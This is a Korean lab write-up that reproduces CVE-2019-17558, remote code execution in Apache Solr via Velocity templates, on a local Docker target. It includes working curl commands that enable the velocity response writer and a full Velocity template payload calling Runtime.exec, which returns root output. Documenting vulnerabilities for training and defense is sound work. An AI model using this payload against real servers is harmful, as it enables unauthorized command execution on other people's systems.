

# Apache Solr Remote Code Execution via Velocity Template (CVE-2019-17558)

> 화이트햇 스쿨 3기 - [이명현 (@MYoung)](https://github.com/Myyoung0)
> 

Apache Solr는 Apache Lucene(TM) 기반의 고성능 검색 플랫폼이다.
Apache Solr 5.0.0부터 8.3.1 버전까지 VelocityResponseWriter를 통한 원격 코드 실행(RCE) 취약점이 존재한다.
공격자는 서버 설정 변경 없이 파라미터 기반으로 악성 Velocity 템플릿을 삽입할 수 있으며, 이를 통해 서버 명령어를 실행할 수 있다.

---

## 참고 자료

- vulhub solr PoC 환경: [https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-17558](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-17558)

---

## 환경 설정

Apache Solr 8.2.0 버전을 Docker를 사용하여 구성했다.

```
docker-compose up -d
```

서버가 정상적으로 기동되면 다음 주소로 접속할 수 있다.

[http://localhost:8983/solr/](http://localhost:8983/solr/)

관리자 인증 없이 바로 접근 가능하다.

---

## 취약점 재현

### 1. Core 목록 조회

Apache Solr 관리 API를 통해 core 이름을 조회한다.

```
curl "http://localhost:8983/solr/admin/cores?indexInfo=false&wt=json"
```

core 이름은 demo로 확인된다.

### 2. Velocity 기능 활성화

Config API를 통해 VelocityResponseWriter 설정을 추가한다.

```
curl -X POST "http://localhost:8983/solr/demo/config" \
-H "Content-Type: application/json" \
--data '{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}'
```

응답에 "status": 0 이 포함되면 설정이 정상적으로 완료된 것이다.

### 3. 악성 템플릿을 이용해 명령어 실행

BurpSuite를 이용해 아래와 같은 요청을 전송했다.

```
POST /solr/demo/select?q=1&wt=velocity&v.template=custom HTTP/1.1
Host: localhost:8983
Content-Type: application/x-www-form-urlencoded

v.template.custom=#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('id')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

### 4. 명령어 실행 결과

서버로부터 다음과 같은 응답을 받았다.

```
TP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 49

0 uid=0(root) gid=0(root) groups=0(root)
```

명령어 실행이 성공하여 uid=0(root) 결과를 확인했다.

